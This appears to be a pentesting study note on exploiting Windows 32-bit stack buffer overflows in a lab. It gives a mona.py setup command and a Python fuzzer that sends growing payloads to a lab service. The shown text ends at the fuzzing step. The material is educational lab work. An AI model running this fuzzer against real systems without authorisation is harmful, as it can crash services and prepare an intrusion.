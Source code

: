 ```yaml
---
title: Buffer Overflow
category: Exploiting
order: 1
---
```


# Windows 32 bits

## Stack-Based

For that task we are going to use a Windows 7 x64 with Immunity Debugger and mona.py installed.

### Mona configuration

`!mona config -set workingfolder c:\mona\%p`

### Fuzz to find the vulnerable input

fuzzer.py

```
import socket, time, sys

ip = "10.10.95.202"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```
